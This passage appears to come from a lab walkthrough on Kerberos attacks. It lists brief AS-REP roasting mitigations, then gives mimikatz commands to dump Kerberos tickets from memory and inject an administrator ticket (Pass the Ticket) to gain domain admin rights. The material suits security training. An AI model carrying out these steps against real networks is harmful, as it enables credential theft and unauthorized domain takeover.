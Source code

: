 
# AS-REP Roasting Mitigations

- Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective
- Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

# Pass the Ticket

- Prepare Mimikatz & Dump Tickets
    
    You will need to run the command prompt as an administrator: use the same credentials as you did to get into the machine. If you don't have an elevated command prompt mimikatz will not work properly.
    
    1.) `cd Downloads` - navigate to the directory mimikatz is in
    
    2.) `mimikatz.exe` - run mimikatz
    
    3.) `privilege::debug` - Ensure this outputs [output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz
    
    ![https://i.imgur.com/SJQGplV.png](https://i.imgur.com/SJQGplV.png)
    
    4.) `sekurlsa::tickets /export` - this will export all of the .kirbi tickets into the directory that you are currently in
    
    At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier
    
    ![https://i.imgur.com/xC0L5Kf.png](https://i.imgur.com/xC0L5Kf.png)
    
    When looking for which ticket to impersonate I would recommend looking for an administrator ticket from the krbtgt just like the one outlined in red above.
    
- Pass the Ticket w/ Mimikatz
    
    Now that we have our ticket ready we can now perform a pass the ticket attack to gain domain admin privileges.
    
    1.) `kerberos::ptt <ticket>` - run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket
    
    ![https://i.imgur.com/DwXmm8Z.png](https://i.imgur.com/DwXmm8Z.png)
    
    2.) `klist` - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.
    
    We will not be using mimikatz for the rest of the attack.
    
    ![https://i.imgur.com/GgxDm9k.png](https://i.imgur.com/GgxDm9k.png)
    
    3.) You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.
    
    ![https://i.imgur.com/9nxjeTS.png](https://i.imgur.com/9nxjeTS.png)
    